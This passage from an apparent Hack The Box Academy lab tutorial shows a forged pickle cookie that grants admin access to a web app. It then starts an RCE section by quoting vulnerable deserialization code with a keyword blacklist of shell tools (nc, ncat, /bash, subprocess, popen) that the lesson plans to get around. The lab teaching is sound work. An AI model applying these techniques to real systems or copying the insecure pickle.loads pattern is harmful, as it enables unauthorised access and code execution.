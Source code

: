 If we run this exploit, we will get a base64-encoded value:

```shell
python3 exploit-admin.py

gASVRgAAAAAAAACMCXV...SNIP...b2xllIwFYWRtaW6UdWIu

```

#### Testing Locally

Before we run any attacks against the live target, we will test it out locally, like in the PHP sections.

```shell
python3

Python 3.10.7 (main, Oct  1 2022, 04:31:04) [GCC 12.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import util.auth
>>> s = util.auth.cookieToSession('gASVRgAAAAAAAACMCXV...SNIP...b2xllIwFYWRtaW6UdWIu')
>>> s.username
'attacker'
>>> s.role
'admin'

```

We see in the output that `s.role` was set to `admin`, so this attack should work.

#### Running against the Target

We can now overwrite the value of the `auth_8bH3mjF6n9` cookie in our browser and try (re-)loading the admin panel to see if it worked, and we can see it has. The website deserialized the cookie we generated and now thinks we are a user named `attacker` with the `admin` role.

![](https://academy.hackthebox.com/storage/modules/169/3/7-admin.png)


# Remote Code Execution

* * *

## Getting RCE

In the previous section, we generated a cookie value to give ourselves admin access to the website. As a final objective, we will try and abuse the known deserialization to get remote code execution on the web server.

You may have already noticed in the `Identifying a Vulnerability` section that there is some sort of blacklist filter in the `util.auth.cookieToSession` function before the cookie is deserialized. We will need to keep this in mind as we develop our exploit:

```python
...
def cookieToSession(cookie):
    b = base64.b64decode(cookie)
    for badword in [b"nc", b"ncat", b"/bash", b"/sh", b"subprocess", b"popen"]:
        if badword in b:
            return None
    p = pickle.loads(b)
    return p
...

```
